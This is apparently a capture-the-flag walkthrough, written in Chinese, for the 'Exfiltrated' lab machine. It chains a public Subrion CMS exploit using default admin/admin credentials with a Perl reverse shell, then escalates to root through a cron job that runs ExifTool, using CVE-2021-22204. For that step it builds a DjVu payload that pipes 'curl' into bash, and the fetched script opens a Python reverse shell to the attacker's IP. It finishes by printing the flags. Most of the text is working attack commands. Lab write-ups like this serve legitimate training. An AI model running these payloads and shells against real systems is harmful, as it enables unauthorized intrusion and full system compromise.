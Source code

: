 ###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Exfiltrated
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.237.163 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.237.163:22
Open 192.168.237.163:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

先加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo nano /etc/hosts 

192.168.237.163 exfiltrated.offsec
```

找到[edb-49876](https://www.exploit-db.com/exploits/49876)，用`admin/admin`可以登入
```
┌──(kali㉿kali)-[~/pgplay]
└─$ python3 49876.py -u http://exfiltrated.offsec/panel/ -l admin -p admin

$ whoami
www-data
```

他需要用到perl的[reverseshell](https://www.revshells.com/)才能用
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

$ perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.209:9001");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

使用`linpeas.sh`，發現一個怪怪的script`/opt/image-exif.sh`
```
www-data@exfiltrated:/tmp$ wget 192.168.45.209/linpeas.sh
www-data@exfiltrated:/tmp$ chmod +x linpeas.sh
www-data@exfiltrated:/tmp$ ./linpeas.sh

...
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs                                                      
/usr/bin/crontab                                                                                                                            
incrontab Not Found
-rw-r--r-- 1 root root    1081 Aug 27  2021 /etc/crontab 
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
```

google搜尋到[CVE-2021-22204](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/)可以照著做
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo apt-get install -y djvulibre-bin

┌──(kali㉿kali)-[~/pgplay]
└─$ cat exploit.sh   
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.209",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

┌──(kali㉿kali)-[~/pgplay]
└─$ cat payload      
(metadata "\c${system ('curl http://192.168.45.209/exploit.sh | bash')};")

┌──(kali㉿kali)-[~/pgplay]
└─$ djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=payload

┌──(kali㉿kali)-[~/pgplay]
└─$ mv exploit.djvu exploit.jpg

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9002
```

在靶機這，進到`/var/www/html/subrion/uploads`，下載.jpg，等cron會跑到他
```
www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.45.209/exploit.jpg
```

等反彈後在/root資料夾可得到proof.txt，在`/home/coaran`可得到local.txt
```
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@exfiltrated:~# cat proof.txt
4a373d9e24d2bce4be3531c5d4e31faa

root@exfiltrated:/home/coaran# cat local.txt
f130c7eeb85096e5a0de2b32568f51ca
```